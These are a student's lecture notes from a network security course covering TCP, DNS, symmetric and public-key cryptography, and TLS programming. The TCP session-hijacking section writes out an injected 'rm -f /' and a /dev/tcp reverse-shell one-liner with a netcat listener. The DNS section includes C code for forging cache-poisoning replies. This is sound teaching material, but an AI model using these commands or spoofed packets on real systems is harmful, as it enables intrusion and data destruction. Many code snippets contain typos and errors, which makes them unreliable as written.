  - IP is connectionless
  
- 2 verions of IP
  - IPv4 (32-bit address)
  - IPv6 (128-bit)
    - writeen as group of 8 hex addresses

- fragmentations
  - does kernel or user fragment packets?

#### TCP 
- souce and destination computer exchange the **initial sequence number** (ISN)

# Week 5: TCP Protocol

## 5.2 The TCP Protocol and Attacks on TCP

### The need for TCP

- UDP does not:
  - packet loss
  - preserve order

- TCP:
  - handle packet loss
  - preserves order

## 5.3 TCP Client/Server Programming

### TCP Client Program
```C
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>

int main(){
  //Create socket
  int sockfd = socket(AF_INET,SOCK_STREAM,0);
  
  //Set the destination information
  struct sockaddr_in dest;
  memset(&dest, 0, sizeof(struct sockaddr_in));
  dest.sin_family = AF_INET;
  dest.sin_addr.s_add = inet_addr("10.0.2.17");
  dest.sin_port = htons(9090); // host to network (short, port is a short)

  // connect to the server
  connect(sockfd, (struct sockaddr *)&dest, sizeof(struct sockaddr_in)); // establish connection!
  //

  //write data
  char *buffer1 = "Hello server\n";
  char *buffer2 = "Hello again!\n";
  write(sockfd, buffer1, strlen(buffer1));
  write(sockfd, buffer2, strlen(buffer2));

  return 0;
}
```

- UDP is a data gram
- TCP is a stream

### TCP Server Program
```C
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>

int main(){
  int sockfd, newsockfd,
  struct sockaddr_in my addr, client_addr;
  char buffer[100];

  //create socket
  sockfd = socket(AF_INET,SOCK_STREAM,0);

  // set the destination information
  memset(&my_add,0,sizeof(struct sockaddr_in));
  my_addr.sin_family = AF_INET;
  my_addr.sin_port = htons(9090);

  //bind the socket to a port number
  bind(sockfd. (struct sockaddr *)&my_addr, sizeof(struct sockaddr_in)); //register with port
  //(client side OS dynamically assigns port)

  //listen for connections
  listen(sockfd, 5); // i am ready - this is a queue, application get stuff out of queue
  int client_len = sizeof(client_addr);
  newsockfd = accept(sockfd, (struct sockaddr *)&client_addr, &client_len);// block, wait, dequeue

  // read data
  memset(buffre, 0, sizeof(buffer));
  int len = read(newsockfd, buffer, 100);
  printf("received %d bytes: %s", len, buffer);

  return 0;
}
```

### Accepting multiple connections
```C
while (1) {
  newsockfd = accept(sockfd, (struct sockaddr *)&client_addr, &client_len);
  if (fork()==0){//child process
    close(sockfd);
    //read data
    memset(buffer, 0, sizeof(buffer));
    int len = read(newsockfd, buffer, 100);
    printf("received  %d bytes. \n%s\n", len, buffer);

    close(newsockfd);
    return 0;
  } else { // parent process
    close(newsockfd);
  }

}
```
- after you `accept`
  - fork to create a new process
  - create a new socket
- old socket needs to be used to wait for data

## 5.4 TCP Protocol: Buffer and Data Stream

### TCP Protocl: Buffer and Data Stream
- 4 buffers for tcp
- machine 1
  - sender buffer
  - receiver buffer
- machine 2
  - sender buffer
  - receiver buffer

- stream (tcp)
  - tcp needs to put the data in the buffer
  - keep putting data into buffer
  - applicatoin does not make decision how to serve packets
    - tcp makes that decision
    - heuristics
      - time (200 ms typical)
      - mtu (maximum transmit unit)
        - defined by hardware!
        - what happens if you send more than mtu?

- data gram (UDP)
  - send one packet

- tcp mantains order
- receiving buffer receives indexed packet
  - receiver knows where to put them
  - sequence numbers
- once tcp receives all of the packets, tcp gives data to application when it wants
  - overhead on sending data immediately, interupts cpu
  - heuristics
  - tcp can receive out of order, but NEVER deliver out of order
    - please resend
    - if nework is broken, data will never be received and will terminate after a few tries

## 5.5 Flow and Congestion Control

### Flow Control and Sliding Window

- application (A)
- server (B)

- if B is much slower than A, buffer can fill up
  - buffer is not unlimited in size
  - if B's buffer is full, drop the packet
- A keep sending more data
  - B keeps dropping packet
- B needs to inform A how fast it is
  - how much data it can take in time

#### Flow Control

- sliding window
  - set up window in buffer A
  - in this window, send data as fast as possible
  - B will receive some data, and inform A
  - A slides the window by the size of the data B has informed that it received

- window size
  - large
    - too much data, buffer overflow
  - small
    - one at a time, slow

#### Congestion Control
- router can get congested, too!
  - router gets congested, drops packet
  - if A starts noticing a lot of dropped packets,
    - may be a router
    - adjust sliding window

## 5.6 TCP Header

### TCP Header
- Source port
- Destination port
- Sequence Number
  - sequence number of first octet
  - consecutive
- Acknowledgement number
  - `ACK` bit
- TCP Header length (multiply by 4)
- Window Size
  - flow control
- Checksum for integrity
- Urgent pointer
  - `URG` bit
  - ctrl-C
  - interrupt
  - tcp deliver to application through another emergent channel
    - application has to register channel
- bit fields
  - `URG`
  - `ACK`
  - `PSH`
    - immediately flush the buffer
  - `SYN`
  - `FIN`
  - `RST`

## 5.7 SYN Flooding Attacks
### Establishing Connections
TCP 3-way handshake
- tell each side what's my initial sequence number
- Client
  - client sends `SYN` (synchronize) packet to server
    - `SYN` specifies initial sequence number, `x`
  - client then sends `y+1` with `ACK`

- Server
  - Server is listening
  - Server `ACK` (acknowledge) after receiving `SYN`
    - `ACK` sends `x+1` to client
    - What is *server's* initial sequence number, `y`
  - Server `SYN`, `y` along with `ACK`, `x+1`

- Server recieves initial `SYN` , server opens half-open queue
  - Server sends `ACK`, deque
  - Queue takes recources

### SYN Flooding Attack

- Attacker floods the server with many many `SYN` packets
  - Attack with random IP
- Server replies with `ACK`
  - Attacker ignores response
  - Only have to fill up the queue memory

## 5.8 Countermeasures

### Countermeasures
- distributed denial of service
  - botnet

#### Counter measure
we want to make the power ballance symemetric. If you have to use a lot of resources to do an attack, you  might not want to attack.

- reduce time
  - fast network
- SYN Cookie
  - performance tradeoff
- Quiz approach
  - send quiz, if solve quiz sender is serious, not going to SYN flood

## 5.9 Exercise: TCP Reset Attacks

### Closing TCP Connections
How do we close a connection?
- A sends `FIN` to B
  - send `x` sequence number (not initial sequence number)
- B `ACK` `x+1` to A
- (A to B disconnected)
- B sends `FIN` to A
  - send `y` sequence number (not initial sequence number)
- A `ACK` `y+1` to B
- (B to A disconnected)

#### Another way to diconnect
- A `RST` to B
  - like hanging up the phone
  - emergency situations
- Why are you calling me?
  - use `RST`

### TCP Reset Attack
- A and B are talking to eachother nicely
- Attacker wants to break down the conncection.
- Attacker sends a spoofed `RST` packet
  - spoof src IP as B's IP to close connection with A

### Spoofing TCP Reset Packet
- what identifies a connection
  - Source IP Address
  - Destination IP Address
  - Source Port (:23)
  - Destination Port
  - Sequence number
  - `RST` bit

### Launch TCP Reset attack on existing connections
- telnet
- ssh
- streaming
  - packet `RST` should be sent to yourself
  - THIS IS SO YOU DON'T GET BLOCKED FROM YOUTUBE

## 5.10 Exercise: TCP Session Hijacking Attack

### TCP Session Hijacking Attack
- A telnet B
  - data: `ls -l`
- Attacker insert packet
  - data: `rm -f /`
    - remove everything from root directory :(
  - need to know
    - Source IP
    - Dest IP
    - Source IP
    - Dest Ip
    - Sequence number
- can just put the data somwhere in the buffer since the sequence number places it in the queue
  - put return character in data
    - &#9166; `rm -f /`

### What command to inject?
- We have hijacked the telnet connection
  - `rm -f /`
    - not very useful to attacker
  - run shell
    - `/bin/bash`

### Inject More Dangerous Commmand: Reverse Shell

- B runs shell, `/bin/bash/`
  - Attacker has control of shell
  - input device
    - file descriptor: 0
  - output device
    - file descriptor: 1,2
### Reverse Shell
- for the attacker to control the shell,
  - redirect input/output file descriptors to other machine
- TCP server
  - `nc -l 9090 -v`
  - whatever you receive is going to print out
  - whatever you send is going to 
  - redirect input/output to tcp server

#### reverse shell
- `2>&1` error to input
- `0<&1` input to output
`/bin/bash -i > /dev/tcp/10.0.2.7/9090 2>&1 0<&1`

## 5.11 The Mitnick Attack

### Mitnick Attack: Technical Details

- A
  - `rlogin`
- B
  - `rshosts`: allow A without login
- Mitnick attacker
  - send `SYN`,`ACK` to to B from A
  - B `ACK` to A
  - A doesn't expect `ACK`, so A sends `RST` to B to terminate connection
  - Mitnick launch denial of service on A
    - A cannot send `RST`
    - Mitnick `ACK` `y+1`
      - guess initial sequence number because it was predictable

## 5.12 Defending against TCP Attacks

### Defend against TCP Attacks
- Local
  - A and B are on the same network
  - easy to get necessary tcp headers
    - sniffing
- Remote
  - easy headers
    - source IP
    - dest IP
    - if telnet, dest port 23
  - harder headers
    - source port (can guess)
    - sequence number (can guess)

#### Countermeasure:
- randomize source port number
  - 16 bit number
- randomize initial sequence number
  - 32 bit number
- Encrypt the traffic!
  - `RST` attack is still succesful


## 5.13 Summary
- TCP Protocol
  - TCP vs UDP
  - TCP client/server programs
  - TCP Buffer
  - FLow control and congestion control
- Three-way handshake protocol and SYN flooding attack
- TCP reset attack
- TCP session hijacking attack
- Mitnick attack
- Countermeasures
  - encrypt data (use ssh)

# Week 6 & 7 Live Session
## Block cipher
- in symmetric key encryption
  - need strong encryption alogrithm
    - use aes most of the time
  - secrecy of the key

slide 2
what are the obvious reasons for doing the encryption in the hsm?
- what is hsm?

# Week 6 Live Session
## Approaches to message authentication

# Week 6: DNS

## 6.2 Domain Name Systems (DNS)
- humans want to go to nammed address
- computer only knows IP address
- we need something in the middle,
  - something the translate name to address and vice-versa

### Where do we start?
- many computers involved in DNS
- centralized approach...
  - does not scale well
  - primary target
- distributed solution
  - many computer
  - each computer knows part of the names out there
  - how do I find them?
  - use a structure

## 6.3 Organization of DNS Domains
### Organization of DNS Zones
- apollo.syr.edu
  - IP (ns = named server)
    - ns.syr.edu 128.230.12.7
    - ns1.syr.edu 128.230.12.8
    - ns2.syr.edu 128.230.12.9
- how do we get there?

### Heirarcical structure
- ROOT
  -Top Level Domain (TLD)
    - com
      - apple.com
      - microsoft.com
    - net
    - edu
      - syr.edu
    - mil
    - org
    - etc
  - Country-code TLD
    - .fr
    - .cn
    - .uk
    - .br
  - Custom TLD
    - .bank
    - .hotel

### DNS Zone vs Domain
- Domain
  - 
- Zone

### Root Zone File
- https://www.internic.net/domain/root.zone
  - each root hosts this informatoin

## 6.4 Exercise: DNS Query
### DNS Query: Principle
- send query to local DNS server
  - dns cache
  - ask root
  - /etc/hosts
    - static mapping
    - name<->ip
- global dns server
  - google public DNC
  - 8.8.8.8
  - 8.8.4.4
    - consequence of privacy
    - free DNS server wants to know where you go, what your behaviors are

### DNS Iterative Query
- local dns server
  - receives query from user, **www.example.net**
  - sends query to root server
    - no I don't know the answer
    - I know somebody else who might know the answer
    - ask **.net** server
    - I don't know the answer
      - ask **example.net**
        - www might be in example.net
  - cache the answer
    - cache will expire


## 6.5 Set Up Your Own DNS
### What happens when you have bought a domain name?
example.com
- vendor
  - go daddy
- Get IP address block
- name server
  - connect to hierarchy
- root
  - com
    - need to register name server and ip address
    - example.com


### Set up your own DNS Server

> /etc/bind/named.conf (BIND configuration file)
```bash
zone "example.net"{
  type master;
  file "/etc/bind/example.net.db";
};

zone "0.168.192.in-addr.arpa"{
  type master;
  file "/etc/bind/192.168.0.db";
}
```

> zone file
```
$TTL 3D ; default expiration time of all resource records without their own TTL

@ IN SOA ns.example.net. admin.example.net.(
  1 ; Serial
  8H; Refresh
  2H; Retry
  4W; Expire
  1D); Minimum
@ IN NS ns.example.net; address of name server
@ IN MX 10 mail.example.net/ ; Primary Mail Exhanger

www  IN A 192.168.0.101; address of www.example.net
mail IN A 192.168.0.102; address of mail.example.net
ns   IN A 192.168.0.10 ; address of ns.example.net
*.example.net. IN A 192.168.0.100; address for other url in the example.net domain
)
```


## 6.6 Reverse DNS Lookup

### Reverse DNS Lookup
IP->name
- similar to forward lookup

- find name for 128.320.171.184
  - construct a name as a string
  - "184.171.230.128 **.in-addr** **.arpa** **.**"
  - . (root)
    - .arpa
      - .in-addr (name server)
### Reverse Lookup Zone File
### Question: Using Domain Name as the Basis for Access Control
- **do not use domain name as the basis for access control**
- SU -> Server
  - src IP
    - Server does reverse lookup
    - syr.edu

## 6.7 Attack Surface

### Attack Surface
- denial of service on the internet
- dns cache poisoning
  - spoof the dns cache server

## 6.8 Fake Data Attacks
### fake data in the additional section
- rule
  - discard urelated information in addtional section

### face data in the authority section
- rule
  - out of zone... drop
  

## 6.9 DNS Cache-Poisoning Attack
- local DNS server
  - send request to server
  - attack injects reply
    - give them the fake IP

- DNS request is UDP 
  - what is a valid response?
    - src IP
    - dest IP
    - src port (53 dns query)
    - dest port (assigned by OS)
    - transaction ID (16 bit)
      - match response with request
  - local dns server will store response
    - response sets the cache period

## 6.11 Remote DNS Cache-Poisoning Attack
- The challenges
  - need to guess
    - dest port #: ?
    - transaction ID: ?
  - cache effect slows down progress

### Kaminsky attack
hints
  1. don't ask for the domain you want to poison
  2. two addtional fields
     - authority 
     - additional

You can request using a random named server and set the authority to ns.attacker.com

### Counter Measures
- use enryption to preserve integrity
- dificulty in deployment!
  - have to change the whole internet

#### DNSSEC

## 6.12 Construct DNS Packets for Attacks
- How do you spoof the DNS reply?
- in order to construct the DNS response
  - construct IP header
  - construct UDP header
    - data: DNS record, DNS has its own header
      - Transaction ID
        - `0x8400`
          - dns response
          - authoritative answer
      - number of Question Records (1)
      - number of Answer Records (1)
      - number of Authority Records (1)
      - number of Additional Records (0)

### DNS Response Payload
- question record
  - name
    - ns.example.com
  - record type
    - "A" record `0x0001`
  - class
    - internet `0x001`
- answer record
  - name
  - record type
    - A record
    - `0x001`
  - class
  - time to live (cache)
  - data length
  - data: ip address
- authority record
  - name
  - record type
    - NS record
    - `0x002`
  - class
  - time to live (cache)
  - data length
  - data: name server

### Construct DNS Reply

```C
unsigned short construct_dns_reply(char *buffer){
  struct dnsheader *dns = (struct dnsheader *) buffer;

  //construct the dns header
  dns->flags=htons(0x8400);//flag = response this is a dns response

  // the number of certain fields
  dns->QDCOUNT=htons(1); //1 the question field
  dns->ANCOUNT=htons(1); //1 answer field
  dns->NSCOUNT=htons(1); //1 name server (authority) field
  dns->ARCOUNT=htons(1); //1 additional field

  char *p=buffer+12;// move the pointer to the beginning of the DNS data

  if(strstr(p, TARGET_DOMAIN)==NULL) return 0; // only target one specific domain

  p += strlen(p) +1 +2+2;// skip the question section (no change)

  p += set_A_record(p, NULL, 0x0C, ANSWER_IPADDR); // add an A record (Answer Section)
  p += set_NS_record(p, TARGET_DOMAIN, 0, NS_SERVER); // add an NS record (Authority Section)
  p += set_A_record(p, NS_SERVER, 0, NS_IPADDR); // add an A record (additional section)

  return p-buffer;
}
```

### Construct an "A" record

```C
unsigned short set_A_record(char *buffer, char *name, char offset, char *ip_addr){
  char *p=buffer;

  if(name==NULL){
    *p = 0xC0; p++;
    *p = offset; p++;
  }else{
    strcpy(p,name);
    p+=strlen(name)+1;
  }

  *((unsigned short *)p)=htons(0x001);//record type
  p+=2;
  *((unsigned short *)p)=htons(0x001);//class
  p+=2;
  *((unsigned short *)p)=htonl(0x00002000);//time to live
  p+=4;
  *((unsigned short *)p)=htonl(0x0004);//data length
  p+=2;
  *((struct in_addr *)p)->s_addr=inet_addr(ip_addr);//IP Address
  p+=4;

  return (p-buffer);
}
```

## 6.14 Denial-of-Service attack on DNS Server
- DOS attacks on the **root servers**
  - root is very robust and hard to take down
  - need many resources
- DOS attacks on the **.cn nameservers**

## 6.14 Summary

- DNS Structure, root servers, TLDs
- how DNS works
- set up DNS servers
- attack surface
- attacks on DNS
  - fake data attacks
  - dns cache poinsoning & kaminsky attack
  - how to construct DNS-response
  - case studies: Denial-of-service

# Week 8 Live Session: Web Security


# Week 7 Secret Key Encryption and One-way Hash Function
## SSL (Secure Socket Layer)
- transport layer security service
- two layer protocol
  - ssl connection
    - peer to peer
    - associated with 1 ssl session
  - ssl session
    - an association between client and server
    - created by the handshake protocol
    - define a set of cryptographic parameters
    - may be shared by multiple ssl connections
- ssl record protocol srevices
  - confidentiality
    - using symmetric encryption with a shared secret key defined by Handshake protocol
    - message is compressed before encryption
  - message integrity
    - using a MAC with shared secret key
    - similar to HMAC but with different padding

# Week 7: Secret Key Encryption and One-way Hash Function
## 7.2 Secret-Key Encryption

### Introduction to Cryptography
- What is security?
- C I A
- Confidentiality
  - packet sniffing
  - steal password
- Integrity
  - spoofing
  - dns cache poison
  - arp cache poison
  - TCP session hijacking
  - man in the middle
- Availability
  - denial of service
  - SYN flooding
  - TCP RST

- Cryptography helps solves
  - confidentiality
  - integrity

- Secret Key Encryption (Symmetric Key)
- Public Key Encryption (Asymmetric Key)
- One-way hash

## 7.3 Classical Cryptosystems

### Classical Cryptosystems
- Substitution Cipher
  - 2000 yo, caesar cipher
  - A -> H
  - B -> Z
  - C -> I
  ...
  - Z -> O
- plaintext
  - hello
- ciphertext
  - xtbbw

- Monoalphabetic Substitution Cipher
- Polyalphabetic Substitution Cipher

### One-Time Pad
- Message
- Key
- message -xo- key => cipher text

- Cannot reuse the key

## 7.4 DES: Data Encryption Standard

### DES History
- IBM
  - Host Fiestel - "Lucifer"
- 1974 NIST
  - Want to standardize DES
- NSA wants to break crypto
  - First Crypto War
    - 64-bit key
      - 56-bits due to error
- Cracked in 1998 by brute force

## 7.5 AES: Advanced Encryption Standard

- NIST 2001
  - Rijndael (Rain Roll)
- Key size
  - 128
  - 192
  - 256

## 7.6 How to Encrypt Multiple Blocks

### Encrypt more than one block
#### ECB: Electronic Codebook
- Single block cipher
  - DES
    - 64 bit block
  - AES
    - 128 bit block
  - have to encrypt each block separately, otherwise we can establish a pattern between multiple ciperblocks


## 7.7 Encryption Modes

### Cipher Block Chaining (CBC) Mode

**Block Cipher**


- Initialization Vector (IV)
  - Initialization Vector allows us to reuse the same block ciper logic in hardware
  - Initialization Vector changes the first cipher block, thus changing the whole cipher 
  - IV not secret, but needs to be random and unique

### Cipher Feedback (CFB)

**Stream Cipher**

- IV feeds into block cipher encryption first
- main difference
  - don't need full plaintext because the IV is always there. xor works with full IV against partial plaintext

### Output Feedback (OFB)



- don't need to wait for plaintext to create the cipher
- can complete encryption in parallel 
  - offline help

### Counter Mode (CTR)


- no chaining
- stream cipher
- but the counter and nonce change, so the ciphertext changes even if the plaintext is the same
- parallel encryption without offline help


- if a bit is corrupted, only that block and one bit of the next block will be corrupted.

## 7.8 Padding
- block cipher needs whole plaintext to chain
### Padding: PKCS#5

## 7.9 Random Number Generation
### why do we need ranom numbers?

- key!

```C
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(){
  int c,n;
  printf("ten random numbers in [1,100]\n");
  for (c=1; c<=10;c++){
    n=rand()%100 +1;
    printf("%d\n",n);
  }
  return 0;
}
// Predictable - not secure!!
```

```C
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(){
  int c,n;
  srand(time(NULL));// have to set the seed
  printf("ten random numbers in [1,100]\n");
  for (c=1; c<=10;c++){
    n=rand()%100 +1;
    printf("%d\n",n);
  }
  return 0;
}
// Predictable - not secure!!
// if the seed is predictable, the random is predictable
```

### Wehere do get true randomness
- get help from human/physical world

- user
  - move mouse
  - type keys
- hardware
  - temperature of a cpu
  - timing of the interrupt

- Linux
  - a random pool
    - get random data from the ppol
    - `/dev/random`
      - block
    - `/dev/urandom`
      - nonblocking

### Generate a random 128-bit key
```C
#define LEN 16 //128 bits

unsigned char *key = (unsigned char *) malloc(sizeof(char)*LEN);
FILE* random = fopen("/dev/urandom","r");
fread(key, sizeof(char)*LEN,1,random);
fclose(random);
```

### User Special Hardware
- quantum random number generator

## 7.10 Summary
- Classical Ciphers
- DES and AES
- Encryption Modes
- Random number generator

## 7.11 One-way Hash Function

### A game with online students
- Student pick number A
- Student pick number B
- A+B
  - if even student wins
  - if odd prof wins
- Student sends # first
  - prof always wins

## 7.12 Concept of One-way Hash
### Concept
- hash: data -> fixed size
- modulo is a hash function
  - `m % 100` = 0...99
- **one way**
  - `hash(M) = h`
  - cannot find *any* `M` given `h` and `hash()`
  - find `M'` such that `hash(M') = h`
    - difficult
- **collision free**
  - find `M_1`, `M_2`, (`M_1!=M_2`)
  - `hash(M_1)=hash(M_2)`

### Algorithms
- MD: Message Digest
  - MD2, MD4, MD5
- SHA: Secure Hash Algorithm
  - SHA0
  - SHA1
  - SHA2
    - 256-bit SHA-256
    - 384-bit SHA-384
    - 512-bit SHA-512

## 7.13 replay the game
- Prof sends hash(A) to sudent
- Sudent sends B
- prof sends A

- one way property
  - fair to professor
- collision free
  - fair to student

## 7.14 More Applications
### Application: Time Stamping
- publish the hash of a book because 512 bits is cheaper to publish than a whole book

### Application: Password Authentication
- username
- password

- store password in plaintext?
  - store in one-way hash

## 7.15 Message Authentcation Code
### MAC: Message Authentication Code
- A sends message M to B
  - ensure that integrity of M is not changed by man in the middle (mitm)
1. send M, hash(M)
   - doesn't work because mitm can change to M' and hash(M')
2. assume A and B have secret key k
   - encrypt_k(M)
3. M, hash(M || k)
   - send hash of message and encryption key
   - **MAC**

### HMAC
**standard**
$HMAC_K(m)=h((K\oplus{}opad)||h(K\oplus{}ipad||m))$

## 7.16 Collision-Free is Broken
MD5 - found collisions

## 7.17 Summary
- one-way hash function
  - one-way property
  - collision-free property
- algorithms
- applications
  - online game
  - time stamping
  - message authentication code
  - HMAC

# Week 8: Public-Key Encryption and PKI

## 8.2 Public-Key Encryption
### Public-Key Cryptography: History and Concept

- how to solve the key exchange problem?
  - need to encrypt to share the key

1. 1969
   - Jame Ellis
   - no-secret key for encryption
     - public
   - secret key for decryption
     - private

2. 1976
   - whitfield diffie/martin hellman
   - diffie-hellman key exchange

3. 1976
   - Rivst Shamir Adleman: RSA
   - First secure public key algorithm
4. 1973
   - Clifford Cocks
   - GCHQ (classified)

## 8.3 Diffie-Hellman Key Exchange
- Alice
- Bob
- Eve

Alice and Bob want to find a common secret, `k`. Eve can observe their communication.

- Discrete Logrithm
  - $g^x\mod{p}=b$
  - hard to find x

Alice and Bob agree on two numbers with mathematical properties (not a secret)
Alice sends $g^x\mod{p}$ and Bob sends $g^y\mod{p}$
Alice computes $(g^y\mod{p})^x\mod{p}$
Bob computes $(g^x\mod{p})^y\mod{p}$
remove inside mod
$g^{xy}\mod{p}$ common number known by Bob and Alice.


### Turn DH to Public-Key Encryption
- Alice knows
  - g, p, x
    - x is private
  - public key
    - $g^x\mod{p}$
- Bob knows
  - y
  - calculates $(g^x\mod{}p)^y\mod{p}$
    - $g^{xy}\mod{p}$
      - use this as key to encrypt (AES, DES etc) the message
      - need to send $g^y\mod{p}$ so Alice can decrypt

## 8.4 RSA Public-Key Encryption Algorithm

### RSA Algorithm
- Factoring large numbers is hard.
- Fact: `p`, `q` prime numbers
  - `n=pq`
  - from `n` can you find `p` and `q`
  - hard

- Algorithm
  - public key `n`
    - `n=pq`
    - safe guard p & q, n is public
    - (e,n)
      - e=2^16+1=65537 (prime)
        - e is public
  - private key `d`
    - $M^e\mod{n}=C$
    - $(M^e\mod{n})^d\mod{n}=C$
      - decryption to get M back, M is message
      - $M^{ed}\mod{n}=M$
      - find d
        - e=1,d=1 - no good! (even though it works)
      - $M^{ed-1}\mod{pq}=1$
        - $ed-1=(p-1)(q-1)$
        - $ed=(p-1)(q-1)+1$
        - $ed=K(p-1)(q-1)+1$
        - $ed\mod{(p-1)(q-1)}=1$
          - extended euclidean algorithm
          - solve for `e` from `p` and `q`

    - Euler Theorem
      - for any m < p and q
        - $M^{(p-1)(q-1)}\mod{pq}=1$

## 8.5 Exercise Related to RSA

### Summarize RSA
- n=pq
- pick e, not secret 2^16+1=65537
- solve $ed\mod{(p-1)(q-1)=1}$, find d
  - public key (e,n)
  - pivate key (d,n)

- encryption
  - $M^e\mod{n}$
- decryption 
  - $C^d\mod{n}$

### Exercise
n=33, e=17

p=3,q=11
$17d \mod{(2*10)}=1$
d=13

encrypt
$31^17\mod{33}$

dont just raise to 17

just use rsa for public key exchange because it is  expensive. After that use symetric key

## 8.6 Man-in-the-Middle Attack
- Alice
- Bob

- Alice sends (e,n) to Bob in plaintext
  - okay if Eve is listening
- What if eve is in the middle?
  - Alice sends (e,n), intercepted by Attacker
  - Attacker sends (e',n')=pk' to Bob
  - Bob encrypts using $enc_{pk'}(M)$
    - attacker decrypts M
  - Attacker sends $enc_pk(M)$ back to Alice
    - M is from Bob
- difficult to launch this attack, but is possible

## 8.7 Digital Signature

- Alice sends (e,n)
  - how do we verify that (e,n) belongs to alice?
  - need someone to put a digital signature or seal on the public key
- RSA 
  - $M^e\mod{n}$ encryption
  - $M^d\mod{n}$ signature
    - only Alice can generate the signature
    - use the public key $(M^d\mod{n})^e\mod{n}=M$
  - attacker can chane M->M', but won't be able to
- M->$hash(M)^d\mod{n}$

### Defeating MitM attack using Digital Signature
- Alice and Bob get signature from Trusted Party
- Bob needs to know the public key of the trusted party

## 8.8 X.509 Certificate

Alice: (e,n) signature


Certificate Authority (CA). Trusted party to sign public keys

2016
- comodo
- symantec (verisign)
- godaddy
- globalsign

- Self signed certificate
  - only trust the root CA self signed certificate

# 8.9 Exercise: The TLS/SSL Protocol
Transport Layer Security
## The TLS/SSL Protocol
- Client
- Server

- Share public key
  - expensive
- Key, session key
  - much faster

1. Server sends Client public key certificate
2. Client & server generates key using the public key
3. Switch to symmetric key

### Verify
- Client checks cert - is this yours?
  - send number, if you can decrypt it, you own the private key
- Is this vouched/signed by CA?
- Is it still valid?
  - Cert has expiration date
- Are you whome I want to talk to ??
  - you need to check the common name

## Setup of SSL


### Client Side
```C
SSL_load_error_strings(); //readable error messages
SSL_library_init(); //initialize library

// specify this is a client
meth = SSLv23_client_method();
ctx = ssl_CTX_new (meth);
if(!ctx){
  ERR_print_errors_fp(stderr);
  exit(2);
}

// will verify the server
SSL_CTX_set_verify(ctx,SSL_VERIFY_PEER,NULL);

// set the location of the CA Cert
SSL_CTX_load_verify_locations(ctx,CACERT,NULL);
```

### Server Side

```C
SSL_load_error_strings(); //readable error messages
SSL_library_init(); //initialize library

//specify this is a server
meth=SSLv23_server_method();
ctx=SSL_CTX_new(meth);
if(!ctx){
  ERR_print_errors_fp(stderr);
  exit(2);
}

// will not verify the client
SSL_CTX_set_verify(ctx,SSL_VERIFY_NONE,NULL);

// set the location of the CA Cert
SSL_CTX_load_verify_locations(ctx,CACERT,NULL);

// prepare the certificate (the client will request it)
if(SSL_CTX_use_certificate_file(ctx, CERTF,SSL_FILETYPE_PEM)<=0{
  ERR_print_errors_fp(stderr);
  exit(3);
}

if(SSL_CTX_use_PrivateKey_file(ctx, KEYF,SSL_FILETYPE_PEM)<=0{
  ERR_print_errors_fp(stderr);
  exit(4);
}

if(!SSL_CTX_check_private_key(ctx)<=0{
  fprintf("stderr","Private key does not match the certificate public key\n");
  exit(5);
}


```

### Establish SSL Connection
#### CLIENT SIDE  

```C
sd = socket(AF_INET,SOCK_STREAM,0);
CHK_ERR(sd,"socket");

memset(&sa,'\0',sizeof(sa));
sa.sin_family= AF_INET;
sa.sin_addr.s_add=inet_addr("127.0.0.1");//server ip
sa.sin_port = htons(1111);//server port

err = connect(sd, (struct sockaddr*),&sa,sizeof(sa));
CHK_ERR(err,"connect");

//after tcp connection, start ssl
ssl=SSL_new(ctx);
CHK_NULL(ssl);
SSL_set_fd(ssl,sd);
err=SSL_connect(ssl);
CHK_SSL(err);
```

#### SERVER SIDE

```C
// prepare TCP socket for receiving conncetions

listen_sd = socket (AF_INET, SOCK_STREAM, 0); CHK_ERR(listen_sd,"socket");

memset (&sa_serv,'\0',sizeof(sa_serv));
sa_serv.sin_family = AF_INET;
sa_serv.sin_addr.s_addr = INADDR_ANY;
sa_serv.sin_port = htons(1111);

err=bind(listen_sd, (struct sockaddr*)&sa_server,sizeof(sa_serv)); CHK(err,"bind");

//receive tcp connection
err=listen(listen_sd,5); CHK(err,"listen");

client_len = sizeof(sa_cli);
sd=accept (listen_sd, (struct sockaddr*) &sa_cli, &client_len);
CHK_ERR(sd,"accept");
close(listen_sd);
printf("connection from %lx,port %x\n"),sa_cli.sin_addr.s_addr,sa_cli.sin_port);

//tcp connection is ready, do server side SSL

ssl = SSL_NEW(ctx); CHK_NULL(ssl);
SSL_set_fd(ssl, sd);
err = SSL_accept (ssl); CHK_SSL(err);
```

```C
// get servers certificate (beware of dynamic allocation )
server_cert = SSL_get_peer_certificate(ssl); CHK_NULL(server_cert);
printf("Server certificate:\n");

// get the subject from the certficate
X509_NAME *subject = X509_get_subject_name (server_cert); CHK_NULL(subject);
str = X509_NAME_oneline(subject, 0, 0); CHK_NULL(str);
printf("\t subject: %s\n",str);
OPENSSL_free(str);

// get the common name field from the subject
int nid_cn = OBJ_txt2nid("CN");
char common_name[256];
X509_NAME_get_text_by_NID(subject, nid_cn,common_name, 256);
printf("\t CN: %s\n", common_name);
```

#### Better way to verify common names:

```C
#include <openssl/x509.h>

int X509_check_host(X509 *, const char *name, size_t namelen, unsigned int flags, char **peername);

int X509_check_email(X509 *, const char *address, size_t addresslen, unsigned int flags);

int X509_check_ip(X509 *, const char *address, size_t addresslen, unsigned int flags);

int X509_check_ip_asc(X509 *, const char *address, unsigned int flags)
```

#### Data Exchange and Clean Up

```C
//send a message and receive a reply
err = SSL_write (ssl, "Hello world!",strlen("Hello world!")); CHK_SSL(err);

err = SSL_read (ssl, buf, sizeof(buf)-1); CHK_SSL(err);

buf[err]='\0';
printf("got %d chars: '%d'\n",err,buf);
SSL_shutdown(ssl);//send ssl/tls close_notify

//cleanup
cose(sd);
SSL_free(ssl);
SSL_CTX_free(ctx);
```

## 8.10 The Trust on CA

### Root Certificate Authority (CA)

- survey result of april 2016
  - comodo group 40.6%
  - symantex 26.0%
  - goDaddy 11.8%
  - globalSign 9.7%

Protect the private key!

### If a CA is compromised
CA issues Certificate
CA Private key is stolen
- attacker can create fake certificates

Can launch man in the middle attack

### Certificate Pinning

- Browser
  - pin: google's certificate
  - check pinned certificate against received certificate

### Certificate Revocation List (CRL)
- list of revoked certificates
  - software needs to check.

## 8.11 Application: DNSSEC

### DNSSEC
- request
- reply
  - mintm sends fake reply
- Chain of trust by sending one way hash of child's public key
  - doesn't rely on certificate

## 8.12 Summary

- Public key encryption concept
- Diffie-hellman key exchange protocol
- RSA Algorithm
- man-in-the-middle attack
- Digital signature, X.509 certificate, and CA
